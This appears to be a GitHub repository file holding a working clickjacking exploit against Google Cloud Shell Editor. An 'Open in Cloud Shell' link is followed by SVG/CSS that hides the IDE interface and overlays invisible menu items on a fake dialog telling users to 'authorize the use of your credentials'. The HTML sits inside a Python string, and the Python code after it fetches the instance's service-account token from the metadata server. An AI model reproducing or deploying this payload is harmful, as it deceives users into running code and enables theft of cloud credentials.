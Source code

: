 '''
[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor??show=ide&cloudshell_git_repo=https://github.com/Nowasky/03.git&open_in_editor=README.md)
<svg><style>#theia-top-panel,#theia-left-content-panel,#theia-main-content-panel,#theia-right-content-panel,#theia-statusBar,.p-SplitPanel-handle {visibility:hidden}#theia-app-shell .exploit {display: block; visibility: visible;z-index:998}.p-Menu-item,.p-MenuBar-item{display:none}.p-MenuBar,.p-MenuBar-item:nth-child(6){visibility: visible!important;display:block;position:fixed;z-index:999;opacity:0;height:9999px;width:9999px;top:0;left:0}.p-Menu-item:nth-child(2){visibility: visible!important;display:block!important;position:fixed;z-index:999;opacity:0;max-height:none;height:100%;width:100%;top:0;left:0;opacity:0}.p-MenuBar-menu{visibility: visible!important;width:100%;height:100%;opacity:0!important}.p-mod-active{display:none}</style></svg>
<div class="exploit">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
position: fixed;
z-index: 998;">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
position: absolute;
top: 0;
bottom: 0;
left: 0;
right: 0;
z-index: 998;
pointer-events: auto;
-webkit-tap-highlight-color: transparent;
transition: opacity .4s cubic-bezier(.25,.8,.25,1);
background: rgba(0,0,0,.6);
opacity: 1;"></div>
<div dir="ltr" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
direction: ltr;
unicode-bidi: isolate;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
display: flex;
position: absolute;
z-index: 998;
justify-content: center;
align-items: center;">        
<div id="cdk-overlay-0" style="color: rgba(0,0,0,.87);
z-index: 998;
box-sizing: border-box;
padding: 20px 0;
display: flex;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
min-width: 700px;
max-width: 700px;
max-height: 100%;
pointer-events: auto;
position: static;">
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div>
<div aria-modal="true" tabindex="-1" id="mat-dialog-0" role="dialog" aria-labelledby="mat-dialog-title-0" style="pointer-events: auto;
background: #fff;
color: rgba(0,0,0,.87);
box-sizing: border-box;
overflow: auto;
outline: 0;
width: 100%;
height: 100%;
min-height: inherit;
max-height: inherit;
display: flex;
z-index:9999;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
padding: 0;
box-shadow: 0 1px 3px 0 rgba(60,64,67,.3),0 4px 8px 3px rgba(60,64,67,.15);
border-radius: 8px;
transform: none;">
<div _nghost-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-direction: column;
height: 100%;
overflow: hidden;">
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
<h1 _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;
display: block;
margin: 18px 0 0 20px;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-title="" id="mat-dialog-title-0">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;"></div> Cloud Shell Editor</h1>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 10px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;
display: block;
max-height: 65vh;
margin: 0;
padding: 18px 20px 10px 20px;
flex-shrink: 1;
flex-grow: 1000;
overflow: auto;" mat-dialog-content="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"></div>
 Cloud Shell Editor is powered by the Eclipse Theia IDE platform. It comes pre-configured with all the tools you need to get going with cloud-native development on Google Cloud. 
<p class="ng-star-inserted" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"> In order to continue using this product, you must authorize the use of your credentials on the next screen. </p><!----></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 30px;
min-height: 5px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-wrap: wrap;
align-items: center;
box-sizing: content-box;
margin: 0;
padding: 0 0 18px 20px;
min-height: 0;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-actions="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;"></div>
<button mat-flat-button="" style="pointer-events: auto;
-webkit-box-direction: normal;
box-sizing: border-box!important;
position: relative;
user-select: none;
cursor: pointer;
outline: none;
border: none;
-webkit-tap-highlight-color: transparent;
display: inline-block;
white-space: nowrap;
text-decoration: none;
vertical-align: baseline;
text-align: center;
margin: 0;
min-width: 64px;
overflow: visible;
height: 30px;
border-radius: 4px;
padding: 0 24px;
box-shadow: 0 0 0 0 rgba(0,0,0,.2),0 0 0 0 rgba(0,0,0,.14),0 0 0 0 rgba(0,0,0,.12);
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
background: #1a73e8;
color: #fff;
margin-right: 10px;">
<span style="pointer-events: auto;
-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;"> Continue </span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
overflow: hidden;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;" matripple=""></span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
background: #000;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;
opacity: 0;
transition: none;"></span>
</button>
</div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
</div></div>
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div> 
</div>
</div>
</div>
</div>
<!--'''

print('Arbitrary Code Execution')
import requests
r = requests.get('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token', headers={"Metadata-Flavor":"Google"})
